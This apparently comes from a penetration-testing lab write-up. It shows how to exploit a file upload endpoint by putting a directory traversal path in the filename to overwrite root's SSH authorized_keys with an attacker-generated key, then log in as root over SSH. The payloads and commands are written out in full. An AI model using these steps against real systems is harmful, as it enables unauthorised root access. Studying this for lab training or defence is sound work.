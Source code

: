 In order to get advantage of the non-executable scenario, we have to intercept the request of uploading file. later we check if the file is uploaded and the type. One of the different outcomes is that the file overwrite the contents of a file previously uploaded if the name/content is the same. If we notice this behavior we can get advantage of this.

First we check if in the "filename" parameter we can inlcude "../" for a direcctory traversal with something like this:
```
../../../../../../test.txt
```

It could be that the server processes this but sanitizes before it stores son we must be in caution.

Now we can try to change the authorized_keys into the root user in order to log from ssh to this user. We will use these commands:
```
$ ssh-keygen
```
```
$ cat fileup.pub > authorized_keys
```

Now we make a requet with the relative path:
```
../../../../../../root/.ssh/authorized_keys
```
but selecting our autorized keys in order to override it.

And now we try to sign from ssh:
```
$ rm ~/.ssh/known_hosts
```
```
$ ssh -p 2222 -i fileup root@mountaindesserts.com
```
